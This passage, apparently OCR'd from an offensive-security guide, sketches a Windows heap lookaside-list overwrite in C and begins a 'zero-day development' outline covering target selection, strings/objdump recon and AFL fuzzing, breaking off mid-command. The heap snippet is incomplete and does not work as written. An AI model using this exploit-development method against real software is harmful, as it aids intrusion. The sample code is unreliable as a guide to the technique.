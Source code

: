 ### Windows Heap Exploitation

**Lookaside List (LAL) Overwrite**:

```c
// Corrupt LFH freelist
HANDLE heap = GetProcessHeap();

// Allocate and free to populate lookaside
void *chunk1 = HeapAlloc(heap, 0, 0x40);
void *chunk2 = HeapAlloc(heap, 0, 0x40);

HeapFree(heap, 0, chunk1);

// Overflow to corrupt freelist pointer
char overflow[0x50];
memset(overflow, 'A', 0x40);
*(void **)&overflow[0x40] = target_address;

HeapFree(heap, 0, chunk2);
// Next allocation returns target_address
```

---

## 6. Zero-Day Development

### Vulnerability Research Process

1. **Target Selection**

    - Popular software
    - High attack surface
    - Poor security history

2. **Attack Surface Analysis**

    ```bash
    # Find entry points
    strings binary | grep -E "(file|network|input)"

    # Identify parsers
    objdump -d binary | grep -E "(xml|json|parse)"
    ```

3. **Fuzzing**

    ```bash
    # AFL fuzzing
    afl-fuzz -i input/ -o output/ -m none -- ./target @@
